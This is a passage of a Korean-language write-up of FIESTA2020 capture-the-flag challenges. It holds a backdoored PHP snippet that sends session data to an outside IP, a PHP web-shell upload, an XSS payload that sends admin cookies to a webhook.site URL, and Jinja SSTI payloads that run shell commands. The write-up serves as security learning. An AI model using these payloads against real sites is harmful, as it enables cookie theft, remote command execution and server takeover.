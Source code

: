 ```python
for i in check:
   try:
      text = text.replace(i, xor2(i[1:-1].decode("hex"),"\x21")+"(")
   except:
      pass

print text
```

이를 통하여 복호화를 진행하니 플래그가 나왔다.

```php
if ('thisisbackdoor' === 'thisisbackdoor') {
        if (file_get_contents('http://13.125.25.152/?id=' . $_SESSION['id'] . '&content=' . base64_encode($_POST['content']))) {
            $_go = 'FIESTA2020{';
            $_go .= 'wow_you_are_php_master_XD';
            $_go .= '}';
        }
    }
```

여기 플래그가 2번 플래그였다. 이후 저 링크에 들어가서 웹쉘을 이용하여 플래그를 취득했다.

```
http://13.125.25.152?id=kangsecu.php&content=<?php system($_GET['cmd']);?> 
```

를 이용하여 웹쉘을 업로드 후 

```
http://13.125.25.152/memos/kangsecu.php?cmd=/bin/sh;cd ../../../../../cat flag
```

이렇게 3번까지 해결했다.

<h3> 0x1. DarknetMarket</h3>

이 문제는 1번은 xss를 이용하여 어드민 쿠키를 취득하여 플래그를 읽는 것이었다.

```javascript
<script>document.location='https://webhook.site/cd701ca7-b14d-49dd-bc9c-5e188ed925a6/?P='+document.cookie</script>
```

이런 코드를 .phtml로 작성하고 업로드하여 진행하면 쿠키탈취가 가능하다. 이게 1번 플래그였다.

그 다음 1번에서 취득한 어드민 권한으로 접속하면 업로드 된 글들에 코멘트를 달 수 있는데, 여기서 uwsgi를 사용한 프론트는 아파치고, 백엔드는 플라스크라는게 생각나서 SSTI를 진행했다.

```python
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}} 
```

를 이용하여 내부 디렉터리에 파일들을 출력하고 flag가 있길래 읽어왔다.

```python
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}} 
```
